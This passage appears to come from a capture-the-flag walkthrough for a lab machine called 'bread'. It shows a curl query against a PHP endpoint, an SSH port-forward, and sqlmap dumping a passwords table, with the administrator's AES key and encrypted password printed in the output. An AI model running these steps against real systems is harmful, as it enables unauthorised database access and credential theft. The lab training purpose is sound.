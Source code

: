 curl url :

```sh
PS C:\Development> curl http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords


StatusCode        : 200                                                                                               
StatusDescription : OK                                                                                                
Content           : selectarray(1) {                                                                                  
                      [0]=>                                                                                           
                      array(1) {                                                                                      
                        ["aes_key"]=>                                                                                 
                        string(16) "k19D193j.<19391("                                                                 
                      }                                                                                               
                    }
```

 We obtain an aes key, we will use sqlmap to forward port so we can do it on kali. We need two terminal, in one terminal :

```sh
ssh -N -L 1234:127.0.0.1:1234 development@10.10.10.228
```

 In two terminal :

```sh
curl http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords
```

Now run sqlmap with –dump against

```sh
sqlmap -u http://127.0.0.1:1234/index.php\?method\=select\&username\=administrator\&table\=passwords --dump
```

```sh
Database: bread
Table: passwords
[1 entry]
+----+---------------+------------------+----------------------------------------------+
| id | account       | aes_key          | password                                     |
+----+---------------+------------------+----------------------------------------------+
| 1  | Administrator | k19D193j.<19391( | H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw= |
+----+---------------+------------------+----------------------------------------------+
```

